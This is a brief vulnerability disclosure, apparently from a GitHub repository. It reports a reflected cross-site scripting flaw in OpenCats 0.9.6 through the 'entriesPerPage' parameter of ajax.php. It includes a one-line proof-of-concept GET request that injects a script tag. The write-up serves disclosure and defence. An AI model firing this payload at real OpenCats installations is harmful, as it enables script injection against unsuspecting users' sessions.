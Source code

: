 # Cross Site Scripting vulnerability in the OpenCats 'entriesPerPage'.

OpenCats version 0.9.6 PHP7.2 suffers from reflected XSS vulnerability. 
This allows attackers arbitrary JavaScript injection, which compromises secure session between client and server.

### PoC
```
GET /ajax.php?f=getPipelineJobOrder&joborderID=2&page=0&entriesPerPage=15)"></a> <script>alert`xss`</script>&sortBy=dateCreatedInt&sortDirection=desc&indexFile=index.php&isPopup=0
```


![XSS](https://user-images.githubusercontent.com/57464251/192360271-5fd94494-7932-4311-8ae6-836192c0977c.png)
